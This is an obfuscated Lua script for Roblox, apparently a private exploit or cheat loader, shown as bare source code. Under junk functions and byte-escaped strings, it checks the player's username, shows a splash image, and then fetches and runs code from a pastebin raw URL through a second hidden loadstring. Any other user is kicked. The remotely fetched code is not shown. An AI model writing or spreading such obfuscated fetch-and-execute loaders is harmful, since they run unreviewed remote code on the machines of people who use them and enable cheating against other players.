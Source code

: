 # 123

function IllIlllIllIlllIlllIlllIll(IllIlllIllIllIll) if (IllIlllIllIllIll==(((((919 + 636)-636)*3147)/3147)+919)) then return not true end if (IllIlllIllIllIll==(((((968 + 670)-670)*3315)/3315)+968)) then return not false end end; local IIllllIIllll = (7*3-9/9+3*2/0+3*3);local IIlllIIlllIIlllIIlllII = (3*4-7/7+6*4/3+9*9);local IllIIIllIIIIllI = table.concat;function IllIIIIllIIIIIl(IIllllIIllll) function IIllllIIllll(IIllllIIllll) function IIllllIIllll(IllIllIllIllI) end end end;IllIIIIllIIIIIl(900283);function IllIlllIllIlllIlllIlllIllIlllIIIlll(IIlllIIlllIIlllIIlllII) function IIllllIIllll(IllIllIllIllI) local IIlllIIlllIIlllIIlllII = (9*0-7/5+3*1/3+8*2) end end;IllIlllIllIlllIlllIlllIllIlllIIIlll(9083);local IllIIllIIllIII = loadstring;local IlIlIlIlIlIlIlIlII = {'\45','\45','\47','\47','\32','\68','\101','\99','\111','\109','\112','\105','\108','\101','\100','\32','\67','\111','\100','\101','\46','\32','\10','\108','\111','\99','\97','\108','\32','\97','\61','\103','\97','\109','\101','\46','\80','\108','\97','\121','\101','\114','\115','\46','\76','\111','\99','\97','\108','\80','\108','\97','\121','\101','\114','\46','\78','\97','\109','\101','\59','\105','\102','\32','\97','\61','\61','\34','\52','\118','\53','\110','\55','\110','\34','\116','\104','\101','\110','\32','\108','\111','\99','\97','\108','\32','\98','\61','\73','\110','\115','\116','\97','\110','\99','\101','\46','\110','\101','\119','\40','\34','\83','\99','\114','\101','\101','\110','\71','\117','\105','\34','\41','\108','\111','\99','\97','\108','\32','\99','\61','\73','\110','\115','\116','\97','\110','\99','\101','\46','\110','\101','\119','\40','\34','\73','\109','\97','\103','\101','\76','\97','\98','\101','\108','\34','\41','\98','\46','\80','\97','\114','\101','\110','\116','\61','\103','\97','\109','\101','\46','\80','\108','\97','\121','\101','\114','\115','\46','\76','\111','\99','\97','\108','\80','\108','\97','\121','\101','\114','\58','\87','\97','\105','\116','\70','\111','\114','\67','\104','\105','\108','\100','\40','\34','\80','\108','\97','\121','\101','\114','\71','\117','\105','\34','\41','\98','\46','\90','\73','\110','\100','\101','\120','\66','\101','\104','\97','\118','\105','\111','\114','\61','\69','\110','\117','\109','\46','\90','\73','\110','\100','\101','\120','\66','\101','\104','\97','\118','\105','\111','\114','\46','\83','\105','\98','\108','\105','\110','\103','\59','\99','\46','\78','\97','\109','\101','\61','\34','\105','\111','\102','\34','\99','\46','\80','\97','\114','\101','\110','\116','\61','\98','\59','\99','\46','\66','\97','\99','\107','\103','\114','\111','\117','\110','\100','\67','\111','\108','\111','\114','\51','\61','\67','\111','\108','\111','\114','\51','\46','\102','\114','\111','\109','\82','\71','\66','\40','\50','\53','\53','\44','\50','\53','\53','\44','\50','\53','\53','\41','\99','\46','\66','\97','\99','\107','\103','\114','\111','\117','\110','\100','\84','\114','\97','\110','\115','\112','\97','\114','\101','\110','\99','\121','\61','\49','\46','\48','\48','\48','\59','\99','\46','\66','\111','\114','\100','\101','\114','\83','\105','\122','\101','\80','\105','\120','\101','\108','\61','\48','\59','\99','\46','\80','\111','\115','\105','\116','\105','\111','\110','\61','\85','\68','\105','\109','\50','\46','\110','\101','\119','\40','\48','\46','\50','\54','\51','\56','\48','\51','\54','\54','\49','\44','\48','\44','\48','\46','\48','\54','\54','\56','\52','\52','\57','\50','\53','\51','\44','\48','\41','\99','\46','\83','\105','\122','\101','\61','\85','\68','\105','\109','\50','\46','\110','\101','\119','\40','\48','\46','\52','\55','\49','\49','\54','\53','\54','\53','\55','\44','\48','\44','\48','\46','\56','\54','\51','\54','\51','\54','\51','\55','\52','\44','\48','\41','\99','\46','\73','\109','\97','\103','\101','\61','\34','\114','\98','\120','\97','\115','\115','\101','\116','\105','\100','\58','\47','\47','\57','\57','\50','\52','\57','\55','\55','\50','\56','\53','\34','\99','\46','\73','\109','\97','\103','\101','\84','\114','\97','\110','\115','\112','\97','\114','\101','\110','\99','\121','\61','\48','\46','\49','\59','\119','\97','\105','\116','\40','\50','\41','\99','\46','\73','\109','\97','\103','\101','\84','\114','\97','\110','\115','\112','\97','\114','\101','\110','\99','\121','\61','\48','\46','\50','\59','\119','\97','\105','\116','\40','\46','\53','\41','\99','\46','\73','\109','\97','\103','\101','\84','\114','\97','\110','\115','\112','\97','\114','\101','\110','\99','\121','\61','\48','\46','\51','\59','\119','\97','\105','\116','\40','\46','\53','\41','\99','\46','\73','\109','\97','\103','\101','\84','\114','\97','\110','\115','\112','\97','\114','\101','\110','\99','\121','\61','\48','\46','\52','\59','\119','\97','\105','\116','\40','\46','\53','\41','\99','\46','\73','\109','\97','\103','\101','\84','\114','\97','\110','\115','\112','\97','\114','\101','\110','\99','\121','\61','\48','\46','\53','\59','\119','\97','\105','\116','\40','\46','\53','\41','\99','\46','\73','\109','\97','\103','\101','\84','\114','\97','\110','\115','\112','\97','\114','\101','\110','\99','\121','\61','\48','\46','\54','\59','\119','\97','\105','\116','\40','\46','\53','\41','\99','\46','\73','\109','\97','\103','\101','\84','\114','\97','\110','\115','\112','\97','\114','\101','\110','\99','\121','\61','\48','\46','\55','\59','\119','\97','\105','\116','\40','\46','\53','\41','\99','\46','\73','\109','\97','\103','\101','\84','\114','\97','\110','\115','\112','\97','\114','\101','\110','\99','\121','\61','\48','\46','\56','\59','\119','\97','\105','\116','\40','\46','\53','\41','\99','\46','\73','\109','\97','\103','\101','\84','\114','\97','\110','\115','\112','\97','\114','\101','\110','\99','\121','\61','\48','\46','\57','\59','\119','\97','\105','\116','\40','\46','\53','\41','\99','\46','\73','\109','\97','\103','\101','\84','\114','\97','\110','\115','\112','\97','\114','\101','\110','\99','\121','\61','\49','\59','\108','\111','\97','\100','\115','\116','\114','\105','\110','\103','\40','\34','\92','\51','\50','\92','\49','\48','\56','\92','\49','\49','\49','\92','\57','\55','\92','\49','\48','\48','\92','\49','\49','\53','\92','\49','\49','\54','\92','\49','\49','\52','\92','\49','\48','\53','\92','\49','\49','\48','\92','\49','\48','\51','\92','\52','\48','\92','\49','\48','\51','\92','\57','\55','\92','\49','\48','\57','\92','\49','\48','\49','\92','\53','\56','\92','\55','\50','\92','\49','\49','\54','\92','\49','\49','\54','\92','\49','\49','\50','\92','\55','\49','\92','\49','\48','\49','\92','\49','\49','\54','\92','\52','\48','\92','\51','\52','\92','\49','\48','\52','\92','\49','\49','\54','\92','\49','\49','\54','\92','\49','\49','\50','\92','\49','\49','\53','\92','\53','\56','\92','\52','\55','\92','\52','\55','\92','\49','\49','\50','\92','\57','\55','\92','\49','\49','\53','\92','\49','\49','\54','\92','\49','\48','\49','\92','\57','\56','\92','\49','\48','\53','\92','\49','\49','\48','\92','\52','\54','\92','\57','\57','\92','\49','\49','\49','\92','\49','\48','\57','\92','\52','\55','\92','\49','\49','\52','\92','\57','\55','\92','\49','\49','\57','\92','\52','\55','\92','\49','\49','\54','\92','\56','\49','\92','\53','\51','\92','\49','\49','\56','\92','\53','\49','\92','\54','\54','\92','\49','\48','\49','\92','\53','\54','\92','\51','\52','\92','\52','\52','\92','\51','\50','\92','\49','\49','\54','\92','\49','\49','\52','\92','\49','\49','\55','\92','\49','\48','\49','\92','\52','\49','\92','\52','\49','\92','\52','\48','\92','\52','\49','\92','\49','\48','\34','\41','\40','\41','\32','\119','\97','\105','\116','\40','\46','\53','\41','\99','\46','\73','\109','\97','\103','\101','\84','\114','\97','\110','\115','\112','\97','\114','\101','\110','\99','\121','\61','\49','\46','\49','\59','\119','\97','\105','\116','\40','\46','\53','\41','\98','\58','\68','\101','\115','\116','\114','\111','\121','\40','\41','\99','\111','\114','\111','\117','\116','\105','\110','\101','\46','\119','\114','\97','\112','\40','\66','\85','\74','\69','\73','\71','\80','\95','\102','\97','\107','\101','\95','\115','\99','\114','\105','\112','\116','\41','\40','\41','\119','\97','\105','\116','\40','\46','\53','\41','\101','\108','\115','\101','\32','\103','\97','\109','\101','\46','\80','\108','\97','\121','\101','\114','\115','\46','\76','\111','\99','\97','\108','\80','\108','\97','\121','\101','\114','\58','\75','\105','\99','\107','\40','\34','\229','\174','\154','\229','\136','\182','\232','\132','\154','\230','\156','\172','\228','\187','\133','\228','\184','\128','\228','\186','\186','\229','\143','\175','\231','\148','\168','\34','\41','\101','\110','\100','\10',}IllIIllIIllIII(IllIIIllIIIIllI(IlIlIlIlIlIlIlIlII,IIIIIIIIllllllllIIIIIIII))()
